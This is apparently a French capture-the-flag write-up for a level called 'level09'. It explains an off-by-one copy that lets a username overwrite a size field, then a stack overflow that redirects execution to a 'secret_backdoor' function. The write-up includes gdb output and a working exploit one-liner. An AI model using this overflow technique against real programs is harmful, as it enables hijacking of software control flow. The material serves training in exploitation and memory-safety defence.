 # Level 09

Le programme lit de 128 charactère et boucle de 0 jusqu'à 40 **compris** (<=) en copiant chaque charactère du buffer dans la structure de taille 40, mais comme il copie 40 compris il dépasse le buffer dans la structure et écrit dans la prochaine variable nommée `message_size` si notre username fait plus de 40.

Ensuite il lit de 1024 et assigne d'une taille donné dans `message_size` dans la variable `message` de la structure, sauf comme on l'a réecrit précédemment il va dépasser la taille de `message` de 140 et possiblement écrire dans la save rip.

En première lieu on donne un username contenant 255 d'une taille de 41 pour écrire 255 dans `message_size`.
Puis écrire l'addresse de la fonction `secret_backdoor` (0x000055555555488c).

Pour trouver l'offset d'rip on va lancer gdb et remplire notre message de 42, après l'appel de strncpy on peut afficher l'addresse du `message` (0x7fffffffe440) et regarde où est stoqué rip (rip at 0x7fffffffe508). DOnt on peut soustraire les deux addresse pour voir combien on doit écrire.
```
(gdb) x/32xg $rbp-192
0x7fffffffe440: 0x4242424242424242      0x4242424242424242
...
0x7fffffffe4f0: 0x4242424242424242      0x0042424242424242
0x7fffffffe500: 0x00007fffffffe5d0      0x0000555555554924
0x7fffffffe510: 0x000000000000000a      0x0000555555554c69
0x7fffffffe520: 0x00007ffff7ff7000      0x00007ffff7a94713
0x7fffffffe530: 0x00007ffff7dd4260      0x00007ffff7dd4260
(gdb) i f
Stack level 0, frame at 0x7fffffffe510:
 rip = 0x5555555549a2 in set_msg; saved rip 0x555555554924
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe500, args:
 Locals at 0x7fffffffe500, Previous frame's sp is 0x7fffffffe510
 Saved registers:
  rbp at 0x7fffffffe500, rip at 0x7fffffffe508
(gdb) p 0x7fffffffe508 - 0x7fffffffe440
$1 = 200
```

 - 0xff comme username
 - L'offset de 200 et l'address `secret_backdoor`
 - Réouvrire la stdin
```bash
( \
	python -c 'print("\xff"*41)'; \
	python -c 'print("B"*200 + "".join([chr((0x000055555555488c >> (i * 8)) & 0xFF) for i in range(64/8)]))'; \
	cat \
) | ./level09
```
